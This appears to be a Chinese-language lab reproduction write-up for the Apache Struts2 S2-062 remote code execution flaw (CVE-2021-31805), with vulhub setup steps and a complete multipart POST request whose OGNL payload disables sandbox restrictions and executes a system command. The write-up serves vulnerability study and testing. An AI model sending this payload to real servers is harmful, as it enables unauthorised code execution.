

# Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

## 漏洞描述

该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Struts 2.0.0 - Struts 2.5.29</a-checkbox>

## 环境搭建

```php
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-061
docker-compose up -d
```

## 漏洞复现

主页面


发送请求包

```php
POST /index.action HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

